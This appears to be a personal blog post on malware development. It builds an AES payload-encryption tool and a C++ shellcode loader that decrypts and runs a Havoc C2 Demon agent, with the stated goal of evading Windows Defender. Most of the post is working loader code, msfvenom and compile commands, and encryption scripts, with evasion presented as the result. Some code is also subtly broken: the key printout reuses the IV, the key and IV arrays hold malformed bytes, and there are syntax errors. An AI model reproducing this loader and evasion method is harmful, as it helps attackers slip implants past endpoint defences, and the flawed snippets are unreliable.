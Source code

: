 ```yaml
---
layout: post
title: Creating a payload encryption tool and testing it on the Havoc agent
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```


Payload encryption is a must against modern security solutions, as popular code such as meterpreter is sure to get caught by signature-based detection or static file analysis. Although encryption won't get us past heuristic analysis or ML behavioral analysis, it's a step forward toward being stealthy. While this is great, the drawback to payload encryption is that it increases file entropy. Entropy is a measure of randomness within a dataset, and files with an entropy that passes a certain threshold have a good chance of being marked as malicious. There are techniques to decrease entropy, which I will discuss in a later post. 

In this post, I will create a tool that implements a popular encryption algorithm for malware development. The tool will output the encrypted payload and generate a random key and initialization vector. Afterward, I will test out an encrypted payload against Defender. 

Let's create an argument parser using the `argparse` library

```python
# Create the argument parser
parser = argparse.ArgumentParser(
                        prog='PayloadEncryptor',
                        description='Encrypts payloads...duh.',
                        epilog='Check out my blog!')

# Adding arguments to the parser
parser.add_argument('-i', dest = 'initialpayload', help = 'the name of the file that contains your payload', type=argparse.FileType('rb'))
parser.add_argument('-o', dest = 'encryptedpayload', help = 'the file where to write the encrypted payload')

# Run the parser and place the extracted data into an args.<argumentname> object
args = parser.parse_args()
# Read the payload from a file and store it in a variable
with args.initialpayload as f:
   payload = f.read()
```

Then I will create a function that takes the payload, encrypts it, and writes the output to the file the user specified. For this, I will be using the `PyCryptodome` library, as it makes my life easier.

```python
def EncryptAES(input, output):
	# Generate a random key and print it
    key = get_random_bytes(16)
    print(key)
	# Define the cipher as AES-EAX
    cipher = AES.new(key, AES.MODE_EAX)
	# Generate a nonce
    nonce = cipher.nonce
	# Encrypt the input
    ciphertext, tag = cipher.encrypt_and_digest(input)
	# Open or create a file with the name we specified, and write the encrypted payload
    file_out = open(f"{output}", "wb")
    [ file_out.write(x) for x in (cipher.nonce, tag, ciphertext) ]
```

Now let's put it to the test! But first, we will need a payload. 

```shell
msfvenom -p windows/x64/messagebox TEXT="Task failed succesfully" TITLE="Error!" -f raw > payload.bin
```

Let's take a look at it 

![Message box payload](/assets/image3.png)

Now if we run our code, it should look different

```python
python3 Encrypt.py -i payload.bin -o encryptedpayload.bin
```

![Encrypted message box payload](/assets/image4.PNG)

Perfect! So we know that it works, but our payload isn't that interesting. Let's use the Havoc C2 framework to create a payload for the Demon agent (don't forget to start a listener first). This command should create a .bin file.

![Generating the demon agent](/assets/image5.png)

We run our encryption script again, and we have our final payload. But now we need a loader. Let's try this going off this [template](https://github.com/TheD1rkMtr/Shellcode-Hide/blob/main/1%20-%20Simple%20Loader/SimpleLoader/SimpleLoader.cpp). After tweaking the code a bit, this is the final product:

```cpp
#include <windows.h>
#include <stdio.h>

int main() {

unsigned char payload[] = { 
    <SNIP>
};
  
	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}

  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

We will also need to decrypt our payload. For this I will use the [tiny-aes-c](https://github.com/kokke/tiny-AES-c) library.

```cpp
    #include <aes.c>

    <SNIP>

    AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, payload, sizeof(payload));
```

Here is when I ran into a problem. The python script I created encrpted the payload using AES-EAX, and tiny-aes-c uses AES_CBC. Let's adapt our script

```python
def EncryptAES(input, output):
    # Generate a key
    key = get_random_bytes(16)
    # Defining a cipher
    cipher = AES.new(key, AES.MODE_CBC)
    # Encrypting the payload, also adding some padding in case it's size is not a multiple of 16 bytes
    ct_bytes = cipher.encrypt(pad(input, AES.block_size))
    # Print the IV
    print("unsigned char iv[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Print the Key
    print("unsigned char key[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Write into the specified file
    file_out = open(f"{output}", "wb")
    [ file_out.write(ct_bytes) ]
```

And after using THIS script to encrypt our payload, this is the final product

```cpp
unsigned char key[] = {
  0x7b, 0x61, 0x4f, 0xef, 0xbf, 0xbd, 0x78, 0x42, 0xef, 0xbf, 0xbd, 0x5b,
  0x31, 0x6d, 0x25, 0x0a
};

unsigned char iv[] = {
  0xef, 0xbf, 0xbd, 0x45, 0xc9, 0xbd, 0x34, 0xef, 0xbf, 0xbd, 0x54, 0x6a,
  0xef, 0xbf, 0xbd, 0x55, 0xef, 0xbf, 0xbd, 0x5b, 0x31, 0x6d, 0x0a
};

int main() {

unsigned char payload[] = {
  <SNIP>
};
    // Allocate read-write memory the size of our payload
  	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload)), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}

	// Decrypt payload
  AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, payload, sizeof(payload));

  // Copy decrypted payload into memory
	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}
  // Cast a function pointer to our payload.
  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

Now that we have our code, let's compile it!

```shell
x86_64-w64-mingw32-cc -I /Path/to/tiny-AES-c-1.0.0 -o Demon.exe Loader.cpp
```

After transferring it to the Windows machine, I ran it and...the agent crashed. Great. After debugging it a bit, I have come to the conclusion that I also need to use tiny-aes-c for encryption. 

```cpp
unsigned char payload[] {
<SNIP>
};

unsigned char key[] {
};

unsigned char iv[] {
};

AES_ctx ctx = {0};
AES_ctx_init_iv(&ctx, key, iv);
AES_CBC_encrypt_buffer(&ctx, payload, sizeof(payload));

for(int i=0,i<sizeof(payload),i++) {
  print("0x%x, ", payload[i]);
}
```

Piping the output of this into a file, and then copying it to our loader. It should work. Compiling it again and running it on our Windows host...

![Defender got pwned](/assets/image7.png)

